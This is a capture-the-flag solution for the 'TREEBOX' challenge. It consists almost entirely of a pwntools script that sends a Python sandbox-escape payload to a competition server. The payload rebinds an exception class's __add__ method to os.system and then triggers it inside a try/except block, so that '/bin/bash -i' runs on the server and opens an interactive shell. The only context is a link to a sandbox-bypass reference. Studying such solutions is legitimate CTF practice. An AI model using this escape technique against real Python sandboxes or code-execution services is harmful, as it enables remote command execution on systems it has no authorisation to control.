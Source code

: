 ## TREEBOX
### Solve
```python
import pwn

payload = '''# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
--END'''
p = pwn.remote('treebox.2022.ctfcompetition.com', 1337)
p.recv(1024)
p.sendline(payload)
p.interactive()
```
### Reference
- https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls